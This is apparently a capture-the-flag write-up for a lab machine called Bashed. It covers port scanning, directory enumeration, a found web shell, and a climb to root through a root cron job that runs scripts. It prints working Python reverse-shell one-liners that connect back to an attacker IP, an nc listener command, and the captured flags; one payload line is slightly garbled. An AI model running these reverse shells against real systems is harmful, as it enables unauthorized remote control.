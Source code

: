 ## Bashed
*Easy*

This time, I tried port scanning using rustscan because nmap was taking forever to give results.

![](images/bashed-scan.png)

Looks like only port 80 is open. So I opened the webpage.

![](images/basched-web.png)

Then using gobuster I did some eneumeration and found this. 

![](images/bashed-gobust.png)

I then opened /dev and then phpbash.min.php. Interesting! It had a terminal-like interface. I thus got the user flag.

![](images/bashed-user.png)

**2c281f318555dbc1b856957c7147bfc1**

Then I did ```sudo -l``` to see what privilages I had.

![](images/bashed-priv.png)

Clearly, www-data can run commands as scriptmanager. I gave 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and was waiting on my machine for the reverse shell.
```
nc -nvlp 1234
```
I got the reverse shell. Then I gave the following command.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![](images/bashed-rev.png)

In the / everything belongs to root except /scritps, which belongs to scriptmanager. So now we need to become scriptmanager to access /scripts.
```
sudo -u scriptmanager /bin/bash
```
In /scripts, test.py belongs to scriptmanager and the other test.txt belongs to root.

![](images/bashed-scripts.png)

So I opened test.py.

![](images/bashed-test.py.png)

Strange, test.txt was supposed to belong to scriptmanager. So I renamed test.txt as test1.txt and then ran test.py again. This time the test.txt that was created and it belonged to scriptmanager.

![](images/bashed-trial.png)

That's strange. This means there is something happening underneath that changes the owner of test.txt, might be a cron job. We need to manipulate this to become root.
So I made a file called script.py with the payload for a reverse shell and was listening at my machine.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.25\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > script.py
<eno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);
```

I used this payload and made a file called script.py and ran it while I was listening at the other end. I got the revershell, but I still remained scriptmanager.
Something is wrong. I thought my payload was incorrect so I deleted script.py. But of no use. Then I tohought, maybe the cronjob might work only on test.py or on only one python file. Since the payload was ready, I again made script.py and then deleted test.py. Within no time I got the revershell as root!

![](images/bashed-root.png)

**cc4f0afe3a1026d402ba10329674a8e2**
